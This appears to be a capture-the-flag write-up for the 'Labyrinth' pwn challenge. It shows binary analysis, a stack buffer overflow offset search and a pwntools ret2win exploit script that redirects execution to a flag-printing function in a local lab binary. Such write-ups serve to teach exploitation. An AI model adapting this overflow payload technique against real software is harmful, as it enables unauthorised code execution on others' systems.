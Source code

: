 # Labyrinth

We first check the binary provided, to see what is the type of binary and what security is enabled:

```
❯ file labyrinth 
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

❯ checksec --file labyrinth 
[*] '/home/rin/ctf/ctf-writeups/HackTheBox/cyberapocalypse2023/pwn/challenge/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

The binary is dynamically linked to the supplied library and there is no PIE.

We run the binary and are prompted to choose a door between `01` and `160`.

Using `gdb` we see that `69` is the expected number for the first door (simple 'strncmp').

The program then asks us if we want to change our door. By fuzzing the input, we manage to get a segmentation error.

Disassembling the binary, we see the function `escape_plan`. Below is the function decompiled in Ghidra.

```c
void escape_plan(void)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  putchar(10);
  fwrite(&DAT_00402018,1,0x1f0,stdout);
  fprintf(stdout,
          "\n%sCongratulations on escaping! Here is a sacred spell to help you continue your journey : %s\n"
          ,&DAT_0040220e,&DAT_00402209);
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

We see that the function opens the file `flag.txt` and prints its contents.
So the goal is to get our program to execute the function to print the flag. This technique is also known as ret2win.

We see that the function is located at address `0x00000000401255`:

```
pwndbg> info func escape
All functions matching regular expression "escape":

Non-debugging symbols:
0x0000000000401255  escape_plan
```

Thanks to our buffer overflow, we can override `rip` to redirect the execution flow, since we now know we can write to the stack.

Let's create a pattern:
```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

We need to find the 8 bytes that overrides `rip`.
We find them in our pattern at offset 56 after padding with 56 bytes.

Now we just need to jump to the `escape_plan` function.
I wrote a simple exploit script to do this:

```python
from pwn import *

context.log_level = 'debug'

io = process("./labyrinth")

core = gdb.corefile(io)

ret2win = p64(0x401255)

print(io.recv().decode())
io.sendline(b'69')

ret = p64(0x4013ad)
payload = b"A"*56 + ret + ret2win
print(io.recv().decode())
io.sendline(payload)

# Get our flag
flag = io.recv().decode() 
print(flag)
```

Note: The `ret` added to the script is for stack alignment.
You may need to run the exploit several times for it to work.

```
Congratulations on escaping! Here is a sacred spell to help you continue your journey: 
HTB{f4k3_fl4g_4_t35t1ng}
```
